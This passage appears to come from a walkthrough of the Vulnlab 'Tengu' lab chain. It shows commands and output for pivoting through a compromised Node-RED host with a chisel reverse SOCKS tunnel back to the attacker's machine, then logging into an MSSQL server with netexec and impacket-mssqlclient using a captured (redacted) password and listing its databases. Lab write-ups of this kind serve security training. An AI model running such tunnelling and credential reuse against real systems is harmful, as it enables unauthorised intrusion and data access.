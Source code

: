 ```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Chains/Tengu/serve]
└─$ ./chisel server -p 9002 -reverse -v
2024/03/28 14:48:09 server: Reverse tunnelling enabled
2024/03/28 14:48:09 server: Fingerprint b5dbtA951ZqZiU/SMRE6rVwwlf5owCcmA/T1GycWMv0=
2024/03/28 14:48:09 server: Listening on http://0.0.0.0:9002
```

```c
nodered_svc@nodered:/dev/shm$ ./chisel client 10.8.0.2:9002 R:socks
2024/03/28 19:49:01 client: Connecting to ws://10.8.0.2:9002
2024/03/28 19:49:01 client: Connected (Latency 7.498789ms)
```

Then we tested the connection to the `MSSQL database` using `Netexec`.

```c
┌──(kali㉿kali)-[~]
└─$ proxychains -q netexec mssql 10.10.186.230 -u 'nodered_connector' -p 'REDACTED' --local-auth -q "SELECT @@Version"
MSSQL       10.10.186.230   1433   SQL              [*] Windows 10.0 Build 20348 (name:SQL) (domain:SQL)
MSSQL       10.10.186.230   1433   SQL              [+] nodered_connector:REDACTED 
MSSQL       10.10.186.230   1433   SQL              Microsoft SQL Server 2022 (RTM) - 16.0.1000.6 (X64) 
    Oct  8 2022 05:58:25 
    Copyright (C) 2022 Microsoft Corporation
    Developer Edition (64-bit) on Windows Server 2022 Standard 10.0 <X64> (Build 20348: ) (Hypervisor)
```

## Database Enumeration

By using `impacket-mssqlcielt` we accessed the `database` on `SQL.tengu.vl` and started enumerating it.

```c
┌──(kali㉿kali)-[~]
└─$ proxychains -q impacket-mssqlclient nodered_connector:''REDACTED''@SQL.tengu.vl 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: Dev
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL): Line 1: Changed database context to 'Dev'.
[*] INFO(SQL): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (nodered_connector  nodered_connector@Dev)>
```

```c
SQL (nodered_connector  nodered_connector@Dev)> SELECT name FROM sys.databases;
name     
------   
master   

tempdb   

model    

msdb     

Demo     

Dev
```